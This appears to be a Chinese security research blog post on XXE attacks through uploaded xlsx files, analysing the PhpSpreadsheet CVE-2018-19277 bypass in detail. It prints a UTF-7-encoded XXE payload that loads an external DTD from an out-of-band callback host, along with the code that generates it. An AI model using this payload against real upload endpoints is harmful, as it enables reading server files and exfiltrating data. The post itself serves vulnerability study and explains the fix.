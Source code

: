 # xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。
![-w499](media/15552288460409/15553096661880.jpg)
解压xlsx得到一堆xml文件。
![-w369](media/15552288460409/15553098644527.jpg)
解压后的结构
![-w274](media/15552288460409/15553101464498.jpg)
aaaa...
![-w1432](media/15552288460409/15553102717304.jpg)
test-sheet1
![-w1436](media/15552288460409/15553104462469.jpg)
直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变
![-w851](media/15552288460409/15553141607574.jpg)
但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities
解析库：tealeg/xlsx
360EntSecGroup-Skylar/excelize



## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种